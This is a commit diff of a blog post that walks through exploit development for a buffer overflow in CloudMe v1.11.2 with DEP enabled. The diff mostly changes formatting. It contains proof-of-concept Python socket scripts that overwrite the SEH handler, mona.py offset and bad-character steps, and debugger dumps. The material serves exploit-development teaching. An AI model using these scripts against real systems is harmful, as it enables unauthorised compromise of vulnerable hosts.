

Before and after one commit to xen0vas/xen0vas.github.io, a Jekyll site: the page built from _posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md, in a window 1280 px wide and 1400 px high, scrolled down 6405 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
CloudMe v1.11.2 DEP bypass using ROP gadgets

````diff
--- a/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
+++ b/_posts/2021-02-18-cloudme-v1-11-2-dep-bypass-using-rop-gadgets.md
@@ -183,6 +183,7 @@ Invalid exception stack at 41414141
 <hr />
 <h3>2. Searching the Offset</h3>
 <p align="justify">At this point we need to check how far we are able to write and overwrite <b>SEH</b>. In order to do this we will attempt to generate 5000 byte pattern using <b>mona.py</b> as follows. First, create an output folder form mona inside logs folder. All the generated patterns and other data such as ROP chains and bad chars generated from <b>mona.py</b> will be saved there.</p>
+
 ```
 !mona config -set workingfolder c:\logs\%p
 ```
@@ -208,7 +209,11 @@ It's better to open c:\logs\CloudMe\pattern.txt and copy the pattern from the fi
 ```
 
 <p align="justify">Now that we have generated the pattern, we are able to find the exact offset where the application crashes. The following PoC script will do that.</p>
-<pre>import socket<br />import sys
+
+```python
+
+import socket
+import sys
 
 target = "127.0.0.1"
 
@@ -286,15 +291,21 @@ try:
     s.send(payload)
 except Exception as e:
     print(sys.exc_value)
-</pre>
+```
+
 <p align="justify">After we run the python script above, we see that the <b>nseh</b> and <b>seh</b> values are changed</p>
-<pre>0:000&gt; !exchain
+
+```
+0:000> !exchain
 0022d908: USER32!___PchSym_  (USER32+0x83577)+0 (77433577)
 Invalid exception stack at 43347743
-</pre>
+```
+
 <p align="justify">As shown above, the <b>nseh</b> was overwritten with the pattern <b>43347743</b> and <b>SEH</b> was overwritten with the pattern <b>77433577</b>. However, because DEP is enabled, we can not simply pivot to <b>nseh</b> and run instructions from the stack. At this point we are only interested in the offset of <b>SEH</b>. Using <b>mona.py</b> we will calculate the offset of <strong>SEH</strong> as follows</p>
-<pre>0:000&gt; !load pykd.pyd
-0:000&gt; !py mona pattern_offset 77433577
+
+```
+0:000> !load pykd.pyd
+0:000> !py mona pattern_offset 77433577
 Hold on...
 [+] Command used:
 !py C:\Program Files\Windows Kits\8.0\Debuggers\x86\mona.py pattern_offset 77433577
@@ -308,10 +319,14 @@ Looking for wC5w in pattern of 500000 bytes
  - Pattern wC5w not found in cyclic pattern (lowercase)
 
 [+] This mona.py action took 0:00:00.375000
-</pre>
+```
+
 <p align="justify">So, the offset that causes the application to crash has been found and now we can control <b>SEH</b> by creating a junk buffer of <b>2236</b> bytes. Now, lets update the previous PoC</p>
-<pre>import socket
-import sys<br />
+
+```python
+
+import socket
+import sys
 target = "127.0.0.1"
 
 payload_size = 2236
@@ -328,9 +343,12 @@ try:
     s.send(payload)
 except Exception as e:
     print(sys.exc_value)
-</pre>
+```
+
 <p align="justify">When we run the script above, the following chain shows that we now control the exception handler</p>
-<pre>(794.d1c): Access violation - code c0000005 (first chance)
+
+```
+(794.d1c): Access violation - code c0000005 (first chance)
 First chance exceptions are reported before any exception handling.
 This exception may be expected and handled.
 eax=00000001 ebx=41414141 ecx=762498da edx=0000008a esi=41414141 edi=41414141
@@ -340,14 +358,21 @@ cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
 0:000&gt; !exchain
 0022d908: 42424242
 Invalid exception stack at 41414141
-</pre>
+```
+
 <hr />
 <h3>3. The Bad Characters</h3>
 <p align="justify">At this point, before moving further to exploitation, its time to search for bad characters. First, we will use a hex character generator to generate all the 256 ascii hex characters. A nice hex character generator can be cloned from <a href="https://github.com/cytopia/badchars">here</a>. We can also install badchars in our Kali machine as follows</p>
-<pre>pip3 install badchars
-</pre>
+
+```
+pip3 install badchars
+```
+
 <p align="justify">Then we will generate the hex chars as follows</p>
-<pre>root@kali:/home/kali# badchars -f python
+
+
+```
+root@kali:/home/kali# badchars -f python
 badchars = (
   "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
   "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
@@ -366,9 +391,13 @@ badchars = (
   "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
   "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
 )
-</pre>
+```
+
 <p align="justify">We will use the hex chars above to identify badchars in our target. In order to do that, we will use the following python script</p>
-<pre>import sys
+
+```python
+
+import sys
 import socket
 
 target="127.0.0.1"
@@ -405,41 +434,47 @@ try:
 except Exception as e:
   print(sys.exc_value)
 
-</pre>
+```
+
 <p align="justify">After we run the script above, we can then explore the dump on the stack in order to search for bad characters.</p>
-<pre>0:000&gt; dd esp L 500
+
+```
+0:000> dd esp L 500
 [..snip..]
 0022d8c0  41414141 41414141 41414141 41414141
 0022d8d0  41414141 41414141 41414141 41414141
 0022d8e0  41414141 41414141 41414141 41414141
 0022d8f0  41414141 41414141 41414141 41414141
 0022d900  41414141 41414141 41414141 42424242
-<span style="color:#33cccc;">0022d910</span><span style="color:#ff0000;">  04030201 08070605 0c0b0a09 100f0e0d
-</span>0022d920<span style="color:#ff0000;">  14131211 18171615 1c1b1a19 201f1e1d
-</span>0022d930<span style="color:#ff0000;">  24232221 28272625 2c2b2a29 302f2e2d
-</span>0022d940<span style="color:#ff0000;">  34333231 38373635 3c3b3a39 403f3e3d
-</span>0022d950<span style="color:#ff0000;">  44434241 48474645 4c4b4a49 504f4e4d
-</span>0022d960<span style="color:#ff0000;">  54535251 58575655 5c5b5a59 605f5e5d
-</span>0022d970<span style="color:#ff0000;">  64636261 68676665 6c6b6a69 706f6e6d
-</span>0022d980<span style="color:#ff0000;">  74737271 78777675 7c7b7a79 807f7e7d
-</span>0022d990<span style="color:#ff0000;">  84838281 88878685 8c8b8a89 908f8e8d
-</span>0022d9a0<span style="color:#ff0000;">  94939291 98979695 9c9b9a99 a09f9e9d
-</span>0022d9b0<span style="color:#ff0000;">  a4a3a2a1 a8a7a6a5 acabaaa9 b0afaead
-</span>0022d9c0<span style="color:#ff0000;">  b4b3b2b1 b8b7b6b5 bcbbbab9 c0bfbebd
-</span>0022d9d0<span style="color:#ff0000;">  c4c3c2c1 c8c7c6c5 cccbcac9 d0cfcecd
-</span>0022d9e0<span style="color:#ff0000;">  d4d3d2d1 d8d7d6d5 dcdbdad9 e0dfdedd
-</span>0022d9f0<span style="color:#ff0000;">  e4e3e2e1 e8e7e6e5 ecebeae9 f0efeeed
-</span>0022da00<span style="color:#ff0000;">  f4f3f2f1 f8f7f6f5 fcfbfaf9 </span>43<span style="color:#ff0000;">fffefd</span>
+0022d910  04030201 08070605 0c0b0a09 100f0e0d
+0022d920  14131211 18171615 1c1b1a19 201f1e1d
+0022d930  24232221 28272625 2c2b2a29 302f2e2d
+0022d940  34333231 38373635 3c3b3a39 403f3e3d
+0022d950  44434241 48474645 4c4b4a49 504f4e4d
+0022d960  54535251 58575655 5c5b5a59 605f5e5d
+0022d970  64636261 68676665 6c6b6a69 706f6e6d
+0022d980  74737271 78777675 7c7b7a79 807f7e7d
+0022d990  84838281 88878685 8c8b8a89 908f8e8d
+0022d9a0  94939291 98979695 9c9b9a99 a09f9e9d
+0022d9b0  a4a3a2a1 a8a7a6a5 acabaaa9 b0afaead
+0022d9c0  b4b3b2b1 b8b7b6b5 bcbbbab9 c0bfbebd
+0022d9d0  c4c3c2c1 c8c7c6c5 cccbcac9 d0cfcecd
+0022d9e0  d4d3d2d1 d8d7d6d5 dcdbdad9 e0dfdedd
+0022d9f0  e4e3e2e1 e8e7e6e5 ecebeae9 f0efeeed
+0022da00  f4f3f2f1 f8f7f6f5 fcfbfaf9 43fffefd
 0022da10  43434343 43434343 43434343 43434343
 0022da20  43434343 43434343 43434343 43434343
 0022da30  43434343 43434343 43434343 43434343
 0022da40  43434343 43434343 43434343 43434343
 0022da50  43434343 43434343 43434343 43434343
 [..snip..]
-</pre>
+```
+
 <p align="justify">The dump above shows the hex character set we have sent to the vulnerable application that starts from <b>0x0022d910</b> until <b>0x0022da0b</b> . Now its time to perform the analysis. If we take a closer look at at the character set above we can say that we might not have bad characters, but we must still investigate further in order to be sure. We can do this using <b>mona.py</b> directly from <b>windbg</b>. Lets generate the badchars with <b>mona.py</b> as follows</p>
-<pre>0:000&gt; !load pykd.pyd
-0:000&gt; !py mona bytearray -cpb '\x00'
+
+```
+0:000> !load pykd.pyd
+0:000> !py mona bytearray -cpb '\x00'
 Hold on...
 [+] Command used:
 !py C:\Program Files\Windows Kits\8.0\Debuggers\x86\mona.py bytearray -cpb '\x00'
@@ -461,7 +496,8 @@ Done, wrote 255 bytes to file c:\logs\CloudMe\bytearray.txt
 Binary output saved in c:\logs\CloudMe\bytearray.bin
 
 [+] This mona.py action took 0:00:00.047000
-</pre>
+```
+
 <p align="justify">As we see above, we have already set the log file and we can also see the ascii hex characters generated from <b>mona.py</b>. Also, it is worth to mention that we don't need to include the '\x00' character in our character set, because it could cut off the rest of the characters, as it could be acting as a null terminator. Nevertheless, we can see if it is considered a bad character afterwards.</p>
 <p align="justify">Now, we can use the following command to compare the character set generated with <b>mona.py</b>, with the character set we have sent to the vulnerable <b>CloudMe</b> application.</p>
 <pre>0:000&gt; !py mona compare -f c:\logs\CloudMe\bytearray.bin -a 0x0022d910
````
